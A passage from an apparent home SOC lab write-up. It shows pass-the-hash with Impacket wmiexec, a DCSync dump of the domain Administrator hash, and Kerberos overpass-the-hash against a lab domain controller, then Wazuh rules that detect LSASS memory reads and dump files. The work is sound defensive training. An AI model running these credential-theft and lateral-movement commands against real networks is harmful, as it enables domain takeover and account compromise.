## 🚪 Phase 5: Lateral Movement via Pass-the-Hash (PtH)

With the NTLM hash of `compromised-admin` recovered from the dump, plaintext password recovery was unnecessary. Using Impacket's `wmiexec`, the attacker authenticated directly over Windows Management Instrumentation (WMI / Port 135 & 445).

### Step 1: Executing `impacket-wmiexec`

```bash
# Pass-the-Hash remote command execution via WMI
impacket-wmiexec -hashes :<REDACTED_NTLM_HASH> SOCLAB/compromised-admin@192.168.100.146
```

Terminal execution initiating the semi-interactive shell:



---

### Step 2: Verifying Compromised Shell & Privileges

Once the semi-interactive shell was spawned, executing `whoami` and `whoami /groups` verified execution as `soclab\compromised-admin` with local administrative group membership:



---

### Step 3: SOC Telemetry — Windows Event ID 4624 (Logon Type 3)

The Pass-the-Hash connection generated explicit network authentication telemetry in Wazuh:



Document details verifying remote logon from Kali Linux (`192.168.100.50`):



Threat hunting view isolating the network logon event:



Detailed Logon Type 3 network parameters:



---

## 👑 Phase 6: Domain Privilege Escalation via DCSync / Secretsdump

Although `compromised-admin` had local administrative access to the Domain Controller, enterprise dominance requires built-in Domain Administrator control. Utilizing the established administrative access, the operator executed a targeted DCSync attack against the built-in `Administrator` account.

### Step 1: Extracting Domain Administrator Hashes

Impacket's `secretsdump` utilized the Directory Replication Service Remote Protocol (DRSUAPI) to request the replication secrets for the `Administrator` account directly from Active Directory:

```bash
# Dump built-in Domain Administrator hashes via DRSUAPI
impacket-secretsdump -just-dc-user Administrator \
                     SOCLAB/compromised-admin@192.168.100.146 \
                     -hashes :<REDACTED_NTLM_HASH>
```

Execution of `impacket-secretsdump` revealing the built-in Administrator NTLM hash (`0388c69...`) and Kerberos AES256 keys:



---

### Step 2: Domain Admin Takeover & Verification

With the built-in Administrator NTLM hash acquired, a remote administrative session was spawned:

```bash
# Spawn shell as built-in Domain Administrator
impacket-wmiexec -hashes :<REDACTED_ADMIN_NTLM_HASH> Administrator@192.168.100.146
```

Verifying elevated execution via `whoami` and `whoami /groups` confirmed membership in **Domain Admins**, **Enterprise Admins**, and **Schema Admins**:



---

### Step 3: Wazuh Detection of Elevated Administrator Activity

Wazuh captured the rapid escalation and administrative logon events:



Dashboard telemetry showing elevated access:



Event stream capturing service creation and administrative tokens:



Document details validating the Domain Administrator session:



---

## 🎫 Phase 7: Kerberos Pass-the-Ticket (PtT / Overpass-the-Hash)

While Pass-the-Hash relies on legacy NTLM authentication, modern enterprises increasingly disable NTLM across their networks. Pass-the-Ticket (PtT) / Overpass-the-Hash allows an attacker to request a legitimate Kerberos Ticket Granting Ticket (TGT) using harvested AES keys, enabling complete authentication without transmitting any hashes over the wire.

### Step 1: The `KDC_ERR_PREAUTH_FAILED` Troubleshooting Breakthrough

Initial attempts to request a TGT using `impacket-getTGT` resulted in a critical Kerberos pre-authentication failure:

```text
[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
```

#### Forensic Root-Cause Analysis:
1. **Realm Mismatch:** Kerberos is case-sensitive and relies on strict Active Directory Realm naming. The operator initially requested a ticket for NetBIOS domain `SOCLAB`, whereas the Key Distribution Center (KDC) requires the Fully Qualified Domain Name (FQDN) realm `SOCLAB.LOCAL`.
2. **Name Resolution:** The attacker machine required DNS mapping to resolve the domain controller's Kerberos SPN (`WIN-SOCLAB.SOCLAB.LOCAL`).

#### Remediation:
1. Edited `/etc/hosts` on Kali Linux to map the DC IP:
   ```text
   192.168.100.146 WIN-SOCLAB.SOCLAB.LOCAL SOCLAB.LOCAL WIN-SOCLAB
   ```
2. Executed `impacket-getTGT` targeting the full FQDN realm:
   ```bash
   impacket-getTGT -dc-ip 192.168.100.146 \
                   -aesKey <REDACTED_AES256_KEY> \
                   SOCLAB.LOCAL/compromised-admin
   ```
   *Result:* Successfully generated and saved `compromised-admin.ccache`.

---

### Step 2: Injecting Ticket Cache & Executing Kerberos Authentication

With the TGT cached in `compromised-admin.ccache`, the ticket was injected into the Linux environment and utilized for passwordless, hashless lateral movement:

```bash
# 1. Export ticket cache variable
export KRB5CCNAME=compromised-admin.ccache

# 2. Authenticate to Domain Controller via Kerberos (-k -no-pass)
impacket-wmiexec -k -no-pass WIN-SOCLAB.SOCLAB.LOCAL
```

Complete terminal view displaying the troubleshooting cycle, `/etc/hosts` configuration, successful TGT generation, and final Kerberos-authenticated semi-interactive shell:



---

## 🛡️ Phase 8: SOC Detection Engineering & Wazuh Rule Tuning

Detecting LSASS credential theft requires low-level kernel driver instrumentation paired with precise SIEM tuning to eliminate false-positive alert fatigue.

### Step 1: Sysmon Kernel Telemetry Configuration (Event ID 10 & 11)

Sysmon was configured on `WIN-SOCLAB` to monitor all process handles requested against `lsass.exe` (Event ID 10) and all dump files created on disk (Event ID 11):


---

### Step 2: Forensic Triage of the 775 False-Positive Alert Storm

Upon activating raw Event ID 10 collection, an un-tuned detection rule immediately triggered a massive alert storm, peaking at **775 alerts within minutes**:




Executing a diagnostic event query in PowerShell isolated the exact caller responsible for the noise:

```powershell
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -FilterXPath "*[System[(EventID=10)]]" -MaxEvents 1 | Format-List
```



#### Triage Analysis:
- **`SourceImage`:** `C:\Windows\System32\VBoxService.exe`
- **`GrantedAccess`:** `0x1400` (`PROCESS_QUERY_INFORMATION`)
- **Root Cause:** VirtualBox Guest Additions polls session states every 15 seconds. Because it lacked `PROCESS_VM_READ` (`0x0010`), this represented a **benign polling loop**, not credential theft.

---

### Step 3: Production 4-Tier Wazuh Detection Hierarchy

To achieve zero alert fatigue while preserving high-fidelity threat detection, a 4-tier rule hierarchy was deployed in `/var/ossec/etc/rules/local_rules.xml` on the Wazuh Manager:

```xml
<!-- TIER 1: Base Telemetry Collector (Informational Audit Log) -->
<rule id="100103" level="3">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^10$</field>
  <field name="win.eventdata.targetImage">lsass\.exe$</field>
  <description>Sysmon Event 10: Process opened handle to LSASS</description>
  <group>process_access,lsass_telemetry,</group>
</rule>

<!-- TIER 2: Weaponized Memory Read Threat Detector (High Severity Alert) -->
<rule id="100127" level="12">
  <if_sid>100103</if_sid>
  <field name="win.eventdata.grantedAccess">0x1010|0x1410|0x1fffff|0x0010</field>
  <description>Critical Alert: LSASS memory read / ticket dumping attempt</description>
  <mitre>
    <id>T1003.001</id>
    <id>T1558</id>
  </mitre>
  <group>credential_access,lsass_memory_read,</group>
</rule>

<!-- TIER 3: Routine Task Manager Whitelist Suppression -->
<rule id="100128" level="3">
  <if_sid>100127</if_sid>
  <field name="win.eventdata.sourceImage">Taskmgr\.exe$</field>
  <description>Whitelist: Task Manager routine diagnostic handle to LSASS</description>
  <group>whitelist,routine_admin,</group>
</rule>

<!-- TIER 4: Dump / Kerberos Ticket File Created on Disk (Sysmon Event ID 11) -->
<rule id="100129" level="13">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^11$</field>
  <field name="win.eventdata.targetFilename" type="pcre2">(?i)lsass.*\.dmp|\.kirbi</field>
  <description>CRITICAL: LSASS Memory Dump or Kerberos Ticket File Written to Disk</description>
  <mitre>
    <id>T1003.001</id>
    <id>T1558</id>
  </mitre>
  <group>credential_access,lsass_dump_file,</group>
</rule>
```

Docker rule editing and manager verification workflow:


---

### Step 4: Live Verification — Negative & Positive Proof

#### Test A: Negative Verification (Zero-Noise Dead-Band)
Following rule deployment, the 775 alert storm completely halted. Background `VBoxService.exe` polls were cleanly categorized into low-priority informational telemetry:



Threat hunting dashboard showing clean background stream:



#### Test B: Positive True-Positive Verification — Weaponized Memory Read (`Rule 100127`)
When `rundll32.exe comsvcs.dll` executed, it requested `GrantedAccess` bitmask `0x1fffff` / `0x1410`. **Rule 100127 fired immediately at Level 12**:



Document details showing `rundll32.exe` targeting `lsass.exe`:

